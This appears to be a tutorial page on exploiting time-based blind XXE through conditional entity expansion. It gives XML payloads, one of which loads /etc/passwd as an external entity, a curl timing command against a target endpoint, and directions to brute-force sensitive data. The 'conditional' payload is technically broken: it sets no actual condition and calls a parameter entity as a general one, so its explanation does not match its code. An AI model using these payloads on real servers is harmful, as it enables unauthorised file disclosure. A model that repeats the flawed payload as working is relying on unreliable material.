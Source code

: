 ```yaml
---
title: Master Conditional Entity Expansion for XXE Attacks
description: Exploit time-based blind XXE via conditional entity expansion to infer
  application states or sensitive data based on XML parsing delays.
keywords:
- Conditional Entity Expansion
- XXE Attack
- Time-based Blind XXE
- XML Parsing Delay
- Information Leakage
- XML Entity
- Cybersecurity
- Attack Timing
- Server Vulnerability
---
```


# Conditional Entity Expansion

## Context

The objective of this article is to demonstrate how to exploit a time-based blind XML External Entity (XXE) through conditional entity expansion. This technique allows attackers to infer application states or underlying data by leveraging time differences in XML parsing. This article assumes that you have familiarity with XML structure and entity declaration, HTTP request and response mechanics, general XXE exploitation, and the fundamentals of Time-based Blind XXE.

## Theory

### Conditional Entity Expansion in XML Parsers

Conditional entity expansion is a technique that manipulates XML parsing time by expanding entities based on certain conditions. Attackers carefully craft XML payloads such that the depth or recursion of entity expansion is triggered by external data. If an application is vulnerable to XXE, this method can leak information through measurable delays experienced during XML parsing.

### Timing-Based Information Leakage

The core principle of timing-based information leakage lies in the delay caused by complex entity expansion. By exploiting these variations in parsing time, attackers can infer true/false conditions within the application. The attack sequence typically involves submitting an XML with conditional entity expansion and observing the response time to deduce the application's state or data.

```mermaid
flowchart TD
    A[Attacker crafts XML with conditional entity] --> B[Server parses XML]
    B --> C{Condition met?}
    C -- Yes --> D[Entity expands deeply]
    C -- No --> E[Minimal expansion]
    D --> F[Longer response time]
    E --> G[Short response time]
    F & G --> H[Attacker infers condition]
```

### Practical Use Cases for Conditional Expansion

This technique has practical applications in testing for the presence of files, specific values within files, or branches of application logic. By iteratively adjusting entity definitions, attackers can effectively brute-force or enumerate sensitive data using timing differences as their guide.

## Practice

### Time-based Blind XXE via Conditional Entity Expansion

- Begin by crafting a baseline XML payload with a simple entity expansion to establish normal response times.
  
```html
<!DOCTYPE root [
  <!ENTITY a "A">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
]>
<root>&b;</root>
```

This minimal expansion is expected to parse quickly and provides a reference timing for further analysis.

- Next, craft a conditional entity expansion payload that triggers deep recursion if a specific condition is met, such as the presence of a certain string in a file.

```html
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % test "<!ENTITY &#x25; cond SYSTEM 'file:///dev/null'>">
  %file;
  %test;
]>
<root>&cond;</root>
```

Adjust the `SYSTEM` entity to target a file or resource pertinent to your condition. This example setup checks for the UNIX password file.

- Send both payloads to the target endpoint and measure their response times. This comparison will help detect whether conditional expansion has occurred.

```bash
curl -w '%{time_total}\n' -X POST -d @payload.xml http://target/xml-endpoint
```

- Finally, repeat the process with variations in the payload to brute-force or enumerate sensitive data based on timing differences.

By systematically testing various conditions and measuring the response times, you can infer specific information regarding the application's data or logic.

## Tools

- **curl**
- **Burp Suite**

With these tools, you can structure and send HTTP requests, observe response times, and manipulate payloads efficiently. By mastering these techniques and tools, you will be able to execute conditional entity expansion effectively in a vulnerable environment.